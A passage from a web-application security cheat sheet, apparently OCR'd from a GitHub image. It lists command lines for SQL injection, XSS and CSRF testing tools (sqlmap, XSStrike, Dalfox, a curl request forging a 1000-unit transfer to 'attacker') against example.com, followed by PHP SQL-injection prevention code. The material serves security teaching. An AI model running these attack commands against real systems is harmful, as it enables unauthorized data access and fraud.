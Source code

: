 
## 4. Tools for Automation

### SQLi Tools
```bash
# SQLMap
sqlmap -u "http://example.com/page?id=1" --dbs
sqlmap -u "http://example.com/login" --data="username=admin&password=test" --level=5

# NoSQLi Tools
nosqlmap -u http://example.com/login -d 'username=admin&password=test'
```

### XSS Tools
```bash
# XSStrike
python3 xsstrike.py -u "http://example.com/search?q=test"

# XSSer
xsser -u "http://example.com/search?q=test" --auto

# Dalfox
dalfox url "http://example.com/search?q=test"
```

### CSRF Tools
```bash
# Generate CSRF PoC
curl -X POST http://example.com/transfer -d "amount=1000&to=attacker" -H "Referer: http://example.com"

# CSRFTool
python3 csrftool.py -u http://example.com/transfer -m POST -d "amount=1000&to=attacker"
```

---

## 5. Prevention Cheat Sheet

### SQL Injection Prevention
```php
// Use prepared statements (PHP/PDO)
$stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?");
$stmt->execute([$id]);

// Use parameterized queries
$query = "SELECT * FROM users WHERE id = $1";
pg_query_params($conn, $query, [$id]);

// Input validation
if (!is_numeric($id)) { die("Invalid input"); }
```
